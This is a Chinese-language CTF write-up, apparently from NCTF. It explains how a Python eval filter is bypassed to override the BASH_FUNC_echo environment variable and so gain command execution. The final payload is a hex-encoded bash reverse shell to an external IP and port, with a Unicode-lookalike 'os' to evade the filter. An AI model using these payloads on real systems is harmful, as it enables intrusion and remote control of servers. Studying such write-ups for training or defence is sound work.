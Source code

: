 这是本题给出的代码

上面那篇文章给出的利用就是，通过更改环境变量来改变**system**的输出(**PHP的system调用的是系统的`popen()`**,python也是)
从而rce

所以目前的问题就是如何绕过**waf**

os可以用unicode绕过，类似**pwnhub冬季赛**里面的**calc**(当然显然是那题抄这题的)

而变量覆盖可以用[Python黑魔法-[]绕过空格实现变量覆盖](https://aluvion.github.io/2019/05/02/Python%E9%BB%91%E9%AD%94%E6%B3%95-%E7%BB%95%E8%BF%87%E7%A9%BA%E6%A0%BC%E5%AE%9E%E7%8E%B0%E5%8F%98%E9%87%8F%E8%A6%86%E7%9B%96/)

**python2下有效**

![image-20221221172518269](NCTF.assets/image-20221221172518269.png)

但是这个debug页面爆出来的是**python3**啊，我不理解，当时就是卡这点上了

利用黑魔法可构造出这一点

```python
[[str][0]for[os.environ['BASH_FUNC_echo%%']]in[['() { id; }']]]
```

然后**python eval**里面字符串是可以用**hex to str**来绕过的(**函数不行？貌似是可以的，但是这题里面由于data不是全局变量，会导致报错，我也不理解，本地试是可以的**)

最终**payload**

```python
[[str][0]for[ᵒｓ.environ['BASH\x5fFUNC\x5fecho%%']]in[['\x28\x29\x20\x7b\x20\x62\x61\x73\x68\x20\x2d\x69\x20\x3e\x26\x20\x2f\x64\x65\x76\x2f\x74\x63\x70\x2f\x31\x2e\x31\x35\x2e\x31\x30\x37\x2e\x31\x35\x30\x2f\x33\x32\x39\x36\x20\x30\x3e\x26\x31\x3b\x7d']]]
```
